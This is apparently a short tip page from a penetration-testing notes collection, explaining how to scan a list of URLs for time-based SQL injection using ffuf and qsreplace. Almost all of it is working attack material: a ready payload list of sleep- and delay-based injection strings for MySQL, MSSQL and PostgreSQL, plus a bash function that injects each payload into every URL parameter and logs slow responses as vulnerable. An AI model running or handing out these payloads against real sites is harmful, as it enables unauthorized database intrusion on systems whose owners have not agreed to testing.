 ## Time Based Sql Injection with ffuf
Check url list for time based sqli with ffuf

need install ffuf and qsreplace

* ffuf:      ```go get -u github.com/ffuf/ffuf```
* qsreplace: ```go get -u github.com/tomnomnom/qsreplace```




* Payloads: save this in payloads file

```
XOR(if(now()=sysdate(),sleep(5),0))OR%27
if(now()=sysdate(),sleep(5),0)
(select(0)from(select(sleep(5)))v)/*%27+(select(3)from(select(sleep(5)))v)+%27%22+(select(0)from(select(sleep(5)))v)+%22*/
%27XOR(if(now()=sysdate(),sleep(5*1),0))XOR%27Z
1%20AND%20(SELECT%20*%20FROM%20(SELECT(SLEEP(5)))YYYY)%20AND%20%27%%27=%27
1%27XOR(if(now()=sysdate(),sleep(5),0))OR%27
1%20AND%20(SELECT%201337%20FROM%20(SELECT(SLEEP(5)))YYYY)-1337
1%20or%20sleep(5)%23
%27%20WAITFOR%20DELAY%20%270:0:5%27--
%%27;SELECT%20PG_SLEEP(5)--
pg_sleep(5)
%27|%20|pg_sleep(5)--
```


* Add in .bashrc function

```
# Time Based Sql Injection
sqliTime(){
for i in $(cat ~/.pathToPayloadsList/payloads) ; do
  cat $1 | qsreplace "$i" > sqli
  ffuf -u FUZZ -w sqli -s -ft "<5000" | tee -a vulnSqli.txt
  rm sqli
done
}
```

### Usage:
```
sqliTime urls.txt
```
